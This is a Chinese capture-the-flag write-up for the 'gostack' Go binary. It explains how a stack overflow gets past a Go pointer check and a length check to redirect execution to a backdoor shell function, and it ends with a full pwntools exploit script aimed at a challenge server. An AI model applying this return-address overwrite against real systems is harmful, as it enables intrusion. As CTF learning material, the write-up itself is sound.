 # gostack 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|go    |1.18.1|

## 解题思路

一道简单的go的栈溢出题

经测试，发现输入0x100个字符后就会报错非法内存访问，调试器跟一下，
发现原来`rbp - 0xc8`的位置上是一个go指针，随便填一个合法地址继续溢出写，
会报什么超出限制，发现`rbp - 0xc0`的位置上是一个较小的值，填0后继续溢出写，
就可以成功控制返回地址了

实际上错误都是由`Fprintf`引发的，第一次解引用了错误的地址，第二次覆盖了一个过大的`len`，
如图所示

![bypass](./assets/bypass.png)

网上很多wp写rop的链子，很怪，程序不是提供了后门吗。。直接把返回地址修改成`&main.main.func2`，
就可以任意执行一个shell命令，输入`cat flag`就可以获得flag

![success](./assets/success.png)
## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './gostack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x4a09d8\nb *0x4a0a88\nc')
    else:
        sh = remote('8.147.132.179', 39522)
    backdoor = 0x4a05a0

    sh.sendline(b'0'*0x100 + p64(0xc000012040) + p64(0) + b'0'*0xc0 +
                p64(backdoor))

    sh.interactive()
```
